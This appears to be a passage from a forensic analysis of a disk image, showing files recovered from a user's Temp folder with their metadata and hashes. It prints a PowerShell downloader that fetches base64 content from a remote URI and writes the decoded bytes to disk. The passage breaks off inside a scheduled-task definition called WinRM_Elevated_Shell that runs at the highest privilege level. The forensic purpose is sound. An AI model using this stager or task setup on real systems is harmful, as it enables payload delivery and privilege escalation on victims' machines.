 ## `WriteRemoteEncoded.ps1`
```powershell
Param(
    [Parameter(Mandatory=$true,
    ValueFromPipeLine=$false)]
    [String[]]
    $Uri,

    [Parameter(Mandatory=$true,
    ValueFromPipeLine=$false)]
    [String[]]
    $FileName
)

Write-Host $Uri

$path = "$env:TEMP\$FileName"
if (Test-Path -Path $path) {
    Write-Host "[*] File already exist at $ScriptPath"
    return -1
}

$data = [System.Convert]::FromBase64String((Invoke-WebRequest -Uri "$Uri" -UseBasicParsing).content)
[System.IO.File]::WriteAllBytes($path, $data)
```
```text
### Metadata
Name: /img_disk.raw/vol_vol7/Users/Alan/AppData/Local/Temp/WriteRemoteEncoded.ps1
Type: File System
MIME Type: text/plain
Size: 485
File Name Allocation: Allocated
Metadata Allocation: Allocated
Modified: 2019-08-17 05:45:24 UTC
Accessed: 2019-08-17 05:48:39 UTC
Created: 2019-08-17 05:45:24 UTC
Changed: 2019-08-17 05:45:24 UTC
MD5: 3f395e2c81bfbe6be00cb8935959992d
SHA-256:
87cf6ffd1403914f6f8969c6f6fd730684c91670501f51b54200aabdb34ccf49
Hash Lookup Results: UNKNOWN
Internal ID: 14926
```
## `WinRM_Elevated_Shell.ps1`
```powershell
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <URI>\WinRM_Elevated_Shell</URI>
  </RegistrationInfo>
  <Triggers />
  <Principals>
    <Principal id="Author">
      <RunLevel>HighestAvailable</RunLevel>
      <UserId>alan</UserId>
      <LogonType>Password</LogonType>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
```